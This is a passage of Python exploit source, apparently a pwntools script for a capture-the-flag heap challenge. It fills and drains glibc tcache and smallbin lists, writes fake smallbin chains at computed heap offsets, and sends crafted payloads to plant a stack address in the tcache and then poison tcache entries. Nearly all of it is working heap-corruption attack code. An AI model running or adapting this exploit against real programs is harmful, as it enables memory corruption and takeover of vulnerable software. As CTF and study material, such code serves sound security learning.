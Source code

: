 ```python
    # Fill up tcache[0x60]
    for i in range(11):
        free(0x60)

    # Now we have some stuff in smallbins
    # Put some stuff in another tcache size too
    for i in range(3):
        free(0x40)

    # ...and another couple things in smallbins
    for i in range(3):
        free(0x60)

    # We want to transfer a useful stack address into the tcache.
    # In order to do this, we'll create a fake pile of smallbins, and then allocate one of them
    # causing the rest to be transferred into the tcache until it's full.
    # We then have a valid stack address in the tcache, and we can corrupt the bottom bits of it

    fake_bins = heap_base + 0xcbf90
    target_bin = heap_base + 0xedf78
    start_bin = heap_base + 0x1dbf90

    start_overwrite_from = heap_base + 0x1b9fb0

    print("fake", hex(fake_bins))
    print("target", hex(target_bin))
    print("start", hex(start_bin))

    p.send(b"58")
    BINS = 0
    for i in range(BINS):
        # This ended up being unused, it was here to help control the length
        # of the list of smallbins leading to the bin we wanted to overwrite
        p.send(p64(fake_bins + (i+1)*0x20)) # dummy
        p.send(p64(fake_bins + (i+1)*0x20)) # dummy
        p.send(p64(fake_bins + (i+1)*0x20)) # fd
        p.send(p64(fake_bins + (i+1)*0x20)) # bk

    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(b"X" * (target_bin - fake_bins - BINS*0x20 - 0x18))
    p.send(b"\x00" * 16)
    p.send(b"\xc8\x46\n")

    p.send(b"30")
    p.send(b"Y" * (start_bin - start_overwrite_from))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(p64(target_bin))
    p.send(b"\n")

    # Pop the tcache entries.
    for i in range(7):
        p.send(b"58\n")

    # Pop a smallbin entry, causing malloc to move entries from the smallbin to the tcache
    p.send(b"58\n")

    # We need to overwrite the bottom bits of the stack address to something more useful.
    # Use tcache[0x20] to poison tcache[0x40] to point to tcache[0x60]
```